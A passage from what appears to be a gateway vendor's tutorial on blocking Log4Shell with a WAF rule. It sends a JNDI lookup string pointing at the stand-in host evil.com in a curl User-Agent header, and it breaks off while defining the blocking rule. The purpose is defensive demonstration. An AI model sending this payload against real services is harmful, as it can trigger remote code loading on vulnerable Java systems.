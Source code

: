 We’ll simulate one of these attack vectors by passing our `evil.com` string in a request header to our gateway, and then see that request routed to the target service.

We’ll use curl to simulate the attack, passing in the attack string as the value of the standard `User-Agent` header:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://httpbin.solo.io/anything -i
```

You should see a response that looks similar to the one below. Note that if the system under attack logged out its `User-Agent` header using log4j, then it could potentially be compromised.

```
HTTP/1.1 200 OK
date: Mon, 13 Dec 2021 23:20:22 GMT
content-type: application/json
content-length: 444
server: envoy
access-control-allow-origin: *
access-control-allow-credentials: true
x-envoy-upstream-service-time: 41

{
  "args": {},
  "data": "",
  "files": {},
  "form": {},
  "headers": {
    "Accept": "*/*",
    "Host": "34.138.145.188",
    "User-Agent": "${jndi:ldap://evil.com/x}",    <<< THIS IS BAD!!!
    ...
  }
...
}
```

## Protect the vulnerable service

Now we will protect the httpbin service by applying a modified virtual service to the cluster, with a ModSecurity rule added that blocks input strings containing potential Log4Shell attacks.

```bash
cat <<'EOF' | envsubst | kubectl apply -f -
apiVersion: gateway.solo.io/v1
kind: VirtualService
metadata:
  name: vs-httpbin
  namespace: gloo-system
spec:
  virtualHost:
    domains:
      - "httpbin.solo.io"
    routes:
      - matchers:
          - prefix: /
        routeAction:
          single:
            upstream:
              name: httpbin-httpbin-8000
              namespace: gloo-system
    options:
      waf:
        customInterventionMessage: 'Log4Shell malicious payload'
        ruleSets:
        - ruleStr: |
```